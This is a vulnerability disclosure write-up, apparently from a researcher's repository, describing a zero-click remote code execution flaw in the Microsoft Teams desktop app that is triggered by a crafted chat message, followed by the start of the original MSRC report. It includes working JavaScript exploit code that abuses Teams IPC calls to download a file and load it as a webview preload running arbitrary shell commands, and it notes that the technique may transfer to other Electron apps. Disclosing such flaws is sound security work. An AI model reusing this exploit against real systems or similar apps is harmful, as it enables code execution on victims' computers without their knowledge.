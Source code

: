 ```javascript
// redacted no new window RCE payload until ~2021 as requested by Microsoft
```

## Payload with a new window

![file download webview preload RCE](media/ms-teams-new-window-rce-2020-08.gif)

The blank window could have arbitrary content, size, look - it's  "suspiciously blank" because it's a PoC.

[original MOV file here](https://streamable.com/gf15ua)

No user interaction is required, exploit executes upon seeing the chat message. This exploit bypasses webview restrictions and abuses MS Teams API calls to "download" a file and use it as `preload` (nodeJS context) for a `webview`. Teams actually filters `webview` creation - filtering `preload` and other dangerous options, but in this way the check could be bypassed. Probably the idea could be used in other, older ElectronJS apps.


```javascript
cmd = `open /System/Applications/Calculator.app` // change to windows/linux command as required

stage1 = `data:text/plain,cp=require('child_process');cp.exec('${cmd}')`; // create a virtual file to download
this.electronSafeIpc.send(`desktopFileDownload`, stage1); // request to download file

// implement an event handler when files downloaded to trigger payload
this.electronSafeIpc.on(`desktop-file-download-finished`, (_, fileinfo) => { 
        f = fileinfo.uniqueFile.filePath; // event gives us file path which we don't know beforehand
        
        // create a new webview mockup - window with a webview tag and our virtual, downloaded file as preload
        stage2 = `data:text/html,<webview src='about:blank' preload='file:///${f}'></webview>`
        this.electronSafeIpc.send(`allowWindowOpenUrl`, stage2); // abusing MS Teams IPC API to allow above URL
        this.w = window.open(stage2); // URL gets opened, webview gets created with our virtual, downloaded file preload
        setTimeout(()=>{this.w.close()},1000) // not necessary, but let's close the custom window
    }
)
```

# Below is the original bug report sent to MSRC

# Summary

A Remote Code Execution vulnerability has been identified in MS Teams desktop which can be triggered by a novel XSS (Cross-Site Scripting) injection in teams.microsoft.com. A specifically crafted chat message can be sent to any Microsoft Teams member or channel which will execute arbitrary code on victim PC's with NO USER INTERACTION.

